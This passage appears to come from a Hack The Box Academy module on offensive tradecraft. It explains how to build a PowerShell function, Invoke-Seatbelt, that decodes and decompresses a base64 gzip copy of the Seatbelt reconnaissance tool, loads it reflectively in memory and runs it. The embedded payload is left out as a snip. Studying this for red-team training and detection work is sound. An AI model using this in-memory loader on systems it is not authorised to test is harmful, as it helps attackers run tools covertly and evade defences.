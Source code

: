 ![image](https://academy.hackthebox.com/storage/modules/254/2/72.png)

With our compressed and encoded `Seatbelt` assembly prepared, we can begin writing the `PowerShell` script which will load and execute it. First off, we can prepare a function called `Invoke-Seatbelt` which takes one string argument (which we will later pass to `Seatbelt`) and contains the compresed and encoded `Seatbelt` assembly we prepared earlier.

```powershell
function Invoke-Seatbelt {
    [CmdletBinding()]
    Param (
        [String]
        $args = " "
    )

    # Seatbelt.exe -> Gzip -> Base64
    $gzipB64 = "<SNIP>";
}

```

Before we are able to load the assembly, we need to convert it back into its original bytes, so we can add the following lines to decode and then decompress the `$gzipB64` variable.

```powershell
<SNIP>
# Base64 decode
$gzipBytes = [Convert]::FromBase64String($gzipB64);

# Gzip decompress
$gzipMemoryStream = New-Object IO.MemoryStream(, $gzipBytes);
$gzipStream = New-Object System.IO.Compression.GzipStream($gzipMemoryStream, [IO.Compression.CompressionMode]::Decompress);
$seatbeltMemoryStream = New-Object System.IO.MemoryStream;
$gzipStream.CopyTo($seatbeltMemoryStream);
<SNIP>

```

With the assembly bytes back in their original form, we can add the following lines to load the assembly reflectively, [redirect STDOUT to the console](https://stackoverflow.com/a/33128025) and then invoke the `Main` method with the arguments passed to the `Invoke-Seatbelt` function.

```powershell
<SNIP>
# Load assembly reflectively
$seatbeltArray = $seatbeltMemoryStream.ToArray();
$seatbelt = [System.Reflection.Assembly]::Load($seatbeltArray);

# Redirect assembly STDOUT to console
$OldConsoleOut = [Console]::Out;
$StringWriter = New-Object IO.StringWriter;
[Console]::SetOut($StringWriter);

# Call main method
[Seatbelt.Program]::Main($args.Split(" "));

# Reset STDOUT
[Console]::SetOut($OldConsoleOut);
$Results = $StringWriter.ToString();
$Results;
<SNIP>

```

